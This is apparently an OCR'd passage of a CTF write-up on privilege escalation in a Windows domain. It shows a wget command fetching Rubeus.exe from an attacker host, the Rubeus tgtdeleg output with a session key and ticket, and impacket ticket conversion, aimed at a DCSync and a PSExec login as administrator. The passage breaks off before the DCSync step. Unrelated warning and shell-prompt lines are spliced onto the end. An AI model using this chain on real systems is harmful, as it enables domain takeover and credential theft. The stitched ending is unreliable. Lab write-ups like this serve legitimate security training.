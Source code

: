 ### Privilege Escalation

Since we have a shell as service account. we can get system directly with two ways.

#### First Way

The Service accounts are vulnerable to TGT delegation attacks using Rubeus because the service account is often configured with high privileges on the local system, such as the ability to create and modify user accounts and other system resources.

The idea is to get valid TGT (Ticket-Granting Ticket) for the service account, to perform a DCSync attack and then PSExec into the machine as administrator.

First I’ll upload Rubeus to the remove machine.

```
PS C:\Windows\System32\spool\drivers\color> wget 10.10.14.57/Rubeus.exe -o r.exe
```

Then I’ll use it to generate a TGT for the service account.

```
PS C:\Windows\System32\spool\drivers\color> .\r.exe tgtdeleg /nowrap
.\r.exe tgtdeleg /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Request Fake Delegation TGT (current user)

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/LOOKOUT-DC.LOOKOUT.local'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: CYLfo1W5+vf4ZTDXhdsbhxx6n45eG6ONzEKGryITLUg=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIF3jCCBdqgA<SNIIIIIIIIIP>AWoAMCAQGFM
```

I’ll save to my local machine and convert the ticket with `TicketConverter` from `impacket`.

```
hcue@pjsk:/tmp/wr » cat ticket| base64 -d > ticket.kirbi
hcue@pjsk:/tmp/wr » impacket-ticketConverter ticket.kirbi ticket.ccache
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] converting kirbi to ccache...
[+] done
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname